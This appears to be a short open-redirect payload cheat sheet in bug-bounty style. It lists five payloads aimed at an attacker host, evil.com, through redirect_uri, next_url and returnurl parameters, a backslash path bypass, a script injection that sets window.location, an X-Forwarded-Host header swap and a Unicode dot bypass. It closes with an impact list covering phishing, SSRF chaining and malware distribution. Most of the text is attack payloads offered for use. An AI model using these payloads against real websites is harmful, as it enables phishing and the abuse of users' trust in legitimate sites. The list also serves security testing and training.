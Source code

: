 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...
===>>> example: site.com/.../next_url=evil.com/...
===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com


2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 


3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection


4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com


5 - payload: {%E3%80%82}


===>>> example: ===>>> https://20.44.36.49//google%E3%80%82com





==================================================================


## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
